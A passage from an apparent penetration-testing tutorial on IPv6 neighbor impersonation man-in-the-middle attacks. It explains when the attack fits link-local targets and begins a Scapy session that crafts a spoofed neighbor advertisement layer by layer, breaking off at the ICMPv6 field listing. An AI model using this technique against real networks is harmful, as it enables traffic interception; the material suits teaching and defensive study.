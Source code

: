 ![](<../../.gitbook/assets/image (291) (1) (1) (1).png>)

## Exploitation

The IPv6 Neighbor Impersonation MitM attack is particularly useful when exploiting link-local autoconfiguration nodes (using the address prefix FE80::/10) and when the attack intends to exploit a limited number of IPv6 targets. Since the attacker must send ICMPv6 NS messages frequently for each victim on the network, this attack does not scale well where lots of target devices are being exploited. In wide-scale IPv6 MitM attacks, an alternate attack technique using router impersonation is recommended.

## Using Scapy

We can put this theory into practice by fabricating our own custom neighbor advertisements and unicasting them to our intended victim. For this example, we'll use Scapy to craft our malicious advertisement layer by layer:

```
>>> ls(Ether)
dst        : DestMACField         = (None)
src        : SourceMACField       = (None)
type       : XShortEnumField      = (0)
>>> ether=(Ether(dst='00:00:00:00:00:0b', src='00:00:00:00:00:0c'))
>>> ls(IPv6)
version    : BitField             = (6)
tc         : BitField             = (0)
fl         : BitField             = (0)
plen       : ShortField           = (None)
nh         : ByteEnumField        = (59)
hlim       : ByteField            = (64)
src        : SourceIP6Field       = (None)
dst        : IP6Field             = ('::1')
>>> ipv6=IPv6(src='fe80::1', dst='fe80::2')
>>> ls(ICMPv6ND_NA)
type       : ByteEnumField        = (136)
code       : ByteField            = (0)
cksum      : XShortField          = (None)
R          : BitField             = (1)
S          : BitField             = (0)
O          : BitField             = (1)
res        : XBitField            = (0)
```